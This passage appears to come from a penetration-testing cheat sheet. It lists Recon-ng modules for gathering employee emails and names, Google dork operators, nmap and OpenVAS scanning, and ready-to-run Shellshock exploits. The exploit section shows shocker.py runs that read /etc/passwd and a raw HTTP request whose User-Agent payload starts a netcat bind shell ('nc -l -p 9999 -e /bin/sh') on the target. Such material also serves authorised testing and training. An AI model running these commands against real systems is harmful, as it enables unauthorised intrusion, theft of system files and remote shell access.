 Find emails and employee name with Recon-ng:

```text
recon-ng; use module; set DOMAIN $ip; run;
recon/contacts/gather/http/api/whois_pocs
```

Find xss published ad xssed.co

```text
recon/hosts/enum/http/web/xssed
```

Find subdomain

```text
recon/hosts/gather/http/web/google_site
```

Finds IPs close to the domain and possible new domains

```text
recon/hosts/gather/http/web/ip_neighbor
```

Google search

* site:xxx -site:www.xxx
* filetype: look for specific documents, pdf, docx, etc..
* inurl
* intitle
* Others https://www.exploit-db.com/google-hacking-database/

### nmap has many vulnerability scanning NSE scripts in /usr/share/nmap/scripts/

OpenVAS

* Powerful vulnerability scanner with thousands of scan checks. Setup:

```text
openvas-setup; openvas-adduser; gsd
```

## Well known exploits

### Shellshock

The following tool will test it.

```text
git clone https://github.com/nccgroup/shocker; cd shocker; ./shocker.py -H $ip  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose;  ./shocker.py -H $ip  --command "/bin/cat /etc/passwd" -c /cgi-bin/admin.cgi --verbose
```

You can also:

```text
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc $ip 80
```
